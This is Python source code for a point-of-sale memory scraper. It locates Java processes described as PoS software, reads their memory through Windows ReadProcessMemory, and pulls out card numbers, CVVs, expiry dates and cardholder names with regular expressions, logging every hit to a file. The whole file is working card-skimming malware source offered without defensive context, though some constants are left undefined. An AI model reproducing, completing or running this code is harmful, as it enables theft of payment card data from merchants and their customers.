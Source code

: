 import re
import ctypes
import time
import threading
import logging
from queue import Queue
import psutil  # For scanning running processes

# Initialize memory queue and running flag
memory_queue = Queue()
running = True

# Regex patterns for card information
CARD_NUMBER_PATTERN = r'\b(?:\d[ -]*?){13,16}\b'  # Example pattern for 13-16 digit card numbers
CVV_PATTERN = r'\b\d{3,4}\b'  # Typical CVV pattern (3 or 4 digits)
EXPIRY_DATE_PATTERN = r'\b(0[1-9]|1[0-2])\/([0-9]{2})\b'  # Expiry date pattern (MM/YY)
NAME_PATTERN = r'[A-Z][a-z]+ [A-Z][a-z]+'  # Simple pattern for detecting names (First Last)

# Function to scan a memory chunk for card info
def scan_memory_chunk(memory_chunk):
    valid_cards = []
    
    # Search for potential card numbers
    card_numbers = re.findall(CARD_NUMBER_PATTERN, memory_chunk)
    
    for card_number in card_numbers:
        # Search for associated CVV, Expiry Date, and Name
        cvv = re.search(CVV_PATTERN, memory_chunk)
        expiry_date = re.search(EXPIRY_DATE_PATTERN, memory_chunk)
        name = re.search(NAME_PATTERN, memory_chunk)

        if card_number and cvv and expiry_date and name:
            card_info = {
                'Card Number': card_number,
                'Name': name.group(),
                'CVV': cvv.group(),
                'Expiry Date': expiry_date.group()
            }
            valid_cards.append(card_info)
    
    return valid_cards

# Worker thread that processes memory chunks for a specific process
def memory_scan_worker(process_handle, pid):
    while running:
        if memory_queue.empty():
            time.sleep(1)  # Avoid busy waiting
            continue
        
        base_addr, size = memory_queue.get()
        
        try:
            buffer = ctypes.create_string_buffer(size)
            bytesRead = ctypes.c_size_t(0)
            # Check if the address is still valid and if we can read memory
            if ctypes.windll.kernel32.ReadProcessMemory(process_handle, ctypes.c_void_p(base_addr), buffer, size, ctypes.byref(bytesRead)):
                print(f"[PID {pid}] Scanning memory region at address {base_addr} with size {size}")
                valid_cards = scan_memory_chunk(buffer.raw.decode('latin-1', errors='ignore'))
                if valid_cards:
                    for card in valid_cards:
                        formatted_output = f"[PID {pid}] {card['Card Number']}:{card['Name']}:{card['CVV']}:{card['Expiry Date']}"
                        print(formatted_output)
                        logging.info(formatted_output)  # Log to file
                else:
                    print(f"[PID {pid}] No valid card data found in this memory region.")
            else:
                # Handle the case where ReadProcessMemory fails
                logging.warning(f"[PID {pid}] Failed to read memory at {base_addr}: Address may not be valid or accessible.")
                print(f"[PID {pid}] Failed to read memory at address {base_addr}.")
        except Exception as e:
            logging.error(f"[PID {pid}] Error reading memory at {base_addr}: {e}")
            print(f"[PID {pid}] Error reading memory at address {base_addr}: {e}")
        finally:
            memory_queue.task_done()

# Function to automatically detect PIDs of relevant processes (e.g., javaw.exe)
def get_relevant_pids():
    relevant_pids = []
    for proc in psutil.process_iter(['pid', 'name']):
        try:
            # Check for processes that might be related to PoS software
            if proc.info['name'] in ['javaw.exe', 'java.exe']:  # Add other relevant names here if needed
                print(f"Detected relevant process: {proc.info['name']} (PID: {proc.info['pid']})")
                relevant_pids.append(proc.info['pid'])
        except (psutil.NoSuchProcess, psutil.AccessDenied, psutil.ZombieProcess):
            continue
    return relevant_pids

# Function to retrieve memory regions of a given process
def get_memory_regions(pid):
    """ Retrieves the memory regions of the specified process. """
    memory_regions = []
    
    process_handle = ctypes.windll.kernel32.OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, False, pid)
    if not process_handle:
        print(f"Could not open process with PID {pid}.")
        return memory_regions
    
    # MEMORY_BASIC_INFORMATION structure
    class MEMORY_BASIC_INFORMATION(ctypes.Structure):
        _fields_ = [("BaseAddress", ctypes.c_void_p),
                    ("AllocationBase", ctypes.c_void_p),
                    ("AllocationProtect", ctypes.c_ulong),
                    ("RegionSize", ctypes.c_size_t),
                    ("State", ctypes.c_ulong),
                    ("Protect", ctypes.c_ulong),
                    ("Type", ctypes.c_ulong)]
    
    mbi = MEMORY_BASIC_INFORMATION()
    address = 0
    while ctypes.windll.kernel32.VirtualQueryEx(process_handle, ctypes.c_void_p(address), ctypes.byref(mbi), ctypes.sizeof(mbi)):
        if mbi.State == 0x1000:  # MEM_COMMIT
            # Consider only readable regions (PAGE_READWRITE, PAGE_READONLY)
            if mbi.Protect in (0x04, 0x02):
                memory_regions.append((mbi.BaseAddress, mbi.RegionSize))
        
        address += mbi.RegionSize

    ctypes.windll.kernel32.CloseHandle(process_handle)
    return memory_regions

# Main function to scan memory of automatically detected processes
def scan_process_memory(num_threads=4):
    pids = get_relevant_pids()
    
    if not pids:
        print("No relevant processes found.")
        return

    for pid in pids:
        print(f"Starting memory scan for PID {pid}")
        memory_regions = get_memory_regions(pid)
        if not memory_regions:
            print(f"[PID {pid}] No valid memory regions found.")
            continue

        process_handle = ctypes.windll.kernel32.OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, False, pid)
        if not process_handle:
            logging.error(f"[PID {pid}] Could not open process.")
            print(f"[PID {pid}] Could not open process.")
            continue

        # Start threads for each process
        threads = []
        for _ in range(num_threads):
            t = threading.Thread(target=memory_scan_worker, args=(process_handle, pid))
            t.daemon = True  # Allow threads to exit when the main program does
            t.start()
            threads.append(t)

        try:
            while running:
                # Keep scanning new memory regions in a loop
                new_memory_regions = get_memory_regions(pid)
                for region in new_memory_regions:
                    print(f"[PID {pid}] Adding memory region to queue: {region}")
                    memory_queue.put(region)

                time.sleep(5)  # Delay between scans to reduce CPU usage

        except KeyboardInterrupt:
            print(f"Stopping the memory scan for PID {pid}...")
        finally:
            for t in threads:
                t.join()
            ctypes.windll.kernel32.CloseHandle(process_handle)

    print("All memory scans completed.")

# Example usage
if __name__ == "__main__":
    logging.basicConfig(level=logging.INFO, filename='memory_scan.log', filemode='a', format='%(asctime)s - %(message)s')

    # Start scanning memory for relevant processes
    scan_process_memory(num_threads=4)
